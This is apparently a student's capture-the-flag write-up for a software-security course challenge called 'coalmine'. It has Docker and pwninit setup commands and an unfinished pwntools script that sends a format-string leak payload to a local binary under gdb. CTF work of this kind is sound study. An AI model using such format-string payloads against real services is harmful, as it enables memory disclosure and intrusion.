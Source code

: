 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "coalmine"
- story:  no story :/

## Setup
- setup correct libc
```
docker compose up
docker ps
docker exec -it 5dbd2b6fed26 /bin/bash
cd /lib/x86_64-linux-gnu
docker cp 5dbd2b6fed26:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /home/timniklas/Code/software_security_1/homework_02/13_echo2
pwninit
```
- verify that it worked
```
LD_DEBUG=libs ./vuln_patched
```

## Exploit
- we can write arbitrary fmt string of length n, by writing last byte first and then do it in 0(n)


```
#!/usr/bin/env python3

import pwn

exe = pwn.ELF("./vuln_patched")
libc = pwn.ELF("./libc.so.6")
ld = pwn.ELF("./ld-linux-x86-64.so.2")

pwn.context.arch = 'amd64'
#pwn.context.binary = exe

#conn = pwn.remote('tasks.ws24.softsec.rub.de', 33311)
conn = pwn.process([exe.path])

pwn.gdb.attach(conn)


def set_format_string(fmt):
    for byte in fmt:
        print(byte)






set_format_string(b'%1$llx\n%2$llx\n%3$llx\n%4$llx\n')


```
